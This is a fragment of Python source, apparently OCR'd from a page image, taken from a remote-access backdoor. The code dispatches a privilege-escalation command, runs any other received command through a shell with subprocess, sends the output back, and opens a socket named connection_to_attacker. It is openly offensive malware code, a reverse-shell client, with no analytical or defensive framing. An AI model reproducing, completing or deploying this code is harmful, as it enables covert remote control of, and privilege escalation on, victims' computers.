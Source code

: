 
        elif command == 'privsec3':
            try:
                priv3()
            except:
                pass


        
        else:
            try:

                execute = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,
                                   stdin=subprocess.PIPE)
                result = execute.stdout.read() + execute.stderr.read()
                result = result.decode()
                reliable_send(result)
            except:
                pass

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
